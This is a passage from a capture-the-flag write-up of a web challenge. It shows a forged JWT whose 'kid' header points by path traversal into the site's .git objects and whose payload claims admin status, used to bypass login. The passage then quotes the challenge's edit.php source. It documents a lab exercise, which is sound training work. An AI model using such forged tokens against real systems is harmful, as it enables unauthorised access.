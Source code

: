 It seems that worked, so I've proceeded to access it in a browser with the token that I crafted:<br>
<code> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzM4NCIsImtpZCI6Ii4uLy5naXQvb2JqZWN0cy9iMC9lMjdmNmFkZmY1NGM2NzdkMzE4MjVlZGNkNzViYjZkMGU4NzYzZSJ9.eyJzdWIiOiJhZG1pbiIsIm5hbWUiOiJBZG1pbiIsImFkbWluIjp0cnVlfQ.x8yNHEAT1gafpdszqmUQ61vK6tKXI4yxOMx1sFFsbLKHgLL1UYJiEAkH03Q424sH
</code>

<img src="https://github.com/0xhebi/BND-Recruitment-2021-CTF-Web-Security/blob/main/Secret%20Vexillology%20Society/screenshots/admin_log.png"/>

This successfully bypassed authentication.

<br>
<h4><b><i>Getting the flag</i></b></h4>
<p>
Last step was leaking the data from the database. After successfully bypassing the authentication I was able to edit existing posts. I've checked the source code of <code>edit.php</code> 

```php
<?php
include('inc/header.php');

if (!empty($_POST)) {
   db_query("update posts set title = :title, content = :content where user_id = :user_id and id = :id", array(
       ':title' => $_POST['title'],
       ':content' => $_POST['content'],
       ':user_id' => $user_obj['id'],
       ':id' => $_POST['post_id']
   ));

   header('Location: /edit.php?post_id=' . $_POST['post_id']);
   die();
}

```